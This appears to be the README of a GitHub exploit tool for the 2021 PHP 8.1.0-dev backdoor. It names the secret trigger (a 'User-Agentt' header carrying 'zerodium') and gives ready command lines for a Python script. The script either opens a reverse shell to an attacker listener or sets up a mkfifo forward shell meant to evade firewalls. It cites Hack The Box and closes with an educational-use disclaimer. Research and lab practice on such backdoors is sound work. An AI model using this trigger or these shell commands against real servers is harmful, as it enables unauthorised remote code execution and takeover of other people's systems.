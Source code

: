 # PHP 8.1.0-dev Backdoor Remote Code Execution

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header with secret word zerodium.

The original code was restored after the issue was discovered, but then tampered with a second time. The breach would have created a backdoor in any websites that ran the compromised version of PHP, enabling hackers to perform remote code execution on the site.

This exploit creates a reverse shell or a pseudo interactive shell using mkfifo for firewall evasion

## Getting Started

### Executing program

* For reverse shell 
```
python3 php8.1_dev.py -t http://vulnerablesite/ -lhost 127.0.0.1 -lport 9001
```
* For forward shell firewall evasion
```
python3 php8.1_dev.py -t http://vulnerablesite/ -fs
```

## Help

For Help Menu
```
python3 php8.1_dev.py -h
```

## Acknowledgments

Backstory and Inspiration
* [Zerodium](https://arstechnica.com/gadgets/2021/03/hackers-backdoor-php-source-code-after-breaching-internal-git-server/)
* [Hack-The-Box](https://hackthebox.eu/)

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.